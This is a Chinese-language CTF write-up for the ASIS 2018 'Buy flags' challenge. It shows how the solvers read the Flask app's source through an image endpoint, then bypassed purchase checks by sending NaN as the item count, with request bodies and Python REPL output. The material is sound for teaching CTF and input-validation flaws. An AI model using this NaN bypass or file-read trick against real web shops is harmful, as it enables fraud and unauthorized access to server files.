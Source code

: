 # Buy flags

> Challenge Link: [Buy flags](https://asisctf.com/challenges/)
>
> Category: misc
>
> Writeup: [Buy flags](https://github.com/frozenkp/CTF/tree/master/2018/ASIS_CTF_qual/web/Buy_flags)

[Here](http://46.101.173.61/) is an online shop that sells flags :) but we don’t have enough money! Can you buy the flag?

## Observation

這是一個可以購買 flag 的網站，可以勾選想要的 flag，然後輸入 coupon，不過 credit 是 0，也不知道 coupon 是啥，所以都只會回傳 "your credit not enough"

![](https://i.imgur.com/a349JzK.png)

### pay API

按下 pay 以後會 POST 到 http://46.101.173.61/pay

傳的內容有 coupon 以及點選的 flag 項目及數量

```json
{"card": [{"name": "asis", "count": 1}], "coupon": "YWJj"}
```

結果也是用 json 回傳

```json
{"result": "your credit not enough"}
```

這邊有嘗試把 count 改成 0 或是 -1，不過 server 都有處理掉

```json
{"card":[{"name":"asis","count":-1}],"coupon":"aA=="}
```

```json
{"result": "item count must be greater than zero"}
```

### image API

檢查原始碼以後發現圖片是由 http://46.101.173.61/image?name=asis.png 傳過來的，看起來應該是可以做 LFI，不過經過測試後發現只要輸入 `/` 或 `..` 就會回傳 `Access Denied`，猜測可能 server 的檔案也放在當前目錄，所以試了 `server.py` ，但也沒拿到

### flask session

Cookie 的部分有一個 session，乍看之下以為是 jwt，第一段可以解出 data，但其他兩段就完全不能解了

後來查了一下才知道是 flask session，後面兩段是用來驗證第一段的 data 的，需要有 secret key 才能偽造

```
eyJjb3Vwb25zIjpbXSwiY3JlZGl0IjowfQ.Dctipw.Q8aC2jTPn9lLxZQU-0Fc3oBx3Ig
```

```json
{"coupons":[],"credit":0}
```



## Solution

解法的部分是在賽後參照 Writeup 的

### Source code

首先是可以利用 image API 拿到 `app.py`  (flask 的預設 server file)

```
http://46.101.173.61/image?name=app.py
```

其中，flag 是放在 private/flag.txt，secret key 則是放在 private/secret.txt

```python
4   app.secret_key = open('private/secret.txt').read()
20  'data': open('private/flag.txt').read()
```

看一下 image API 的寫法，已經把 private 底下的檔案濾掉了

```python
if '/' in image_name or '..' in image_name or 'private' in image_name:
	return 'Access Denied'
```

### json NaN

最後的解法是在 pay API 把數量改成 NaN 就可以拿到 flag 了

原始碼中，count 的驗證如下

```python
data = request.get_json()
card = data['card']
for flag in card:
    if flag['count'] <= 0:
        return jsonify({'result':'item count must be greater than zero'})
```

實際測試一下，NaN 在 parse 後是 float，且可以通過 `<= 0` 的驗證

```python
>>> text = '{"var":NaN}'
>>> data = json.loads(text)
>>> print data
{u'var': nan}
>>> data['var']
nan
>>> type(data['var'])
<type 'float'>
>>> data['var'] <= 0
False
```

接下來在計算 credit 時的驗證方法如下

```python
for flag in card:
	credit -= flag['count'] * flags[flag['name']]['price']
if credit < 0:
	result = {'result': 'your credit not enough'}
```

實際測試後發現，只要操作流程中有用到 nan，該變數就會被設成 nan，也就可以順利通過驗證了

```python
>>> credit = 0
>>> credit -= data['var'] * 110
>>> credit
nan
>>> credit < 0
False
```

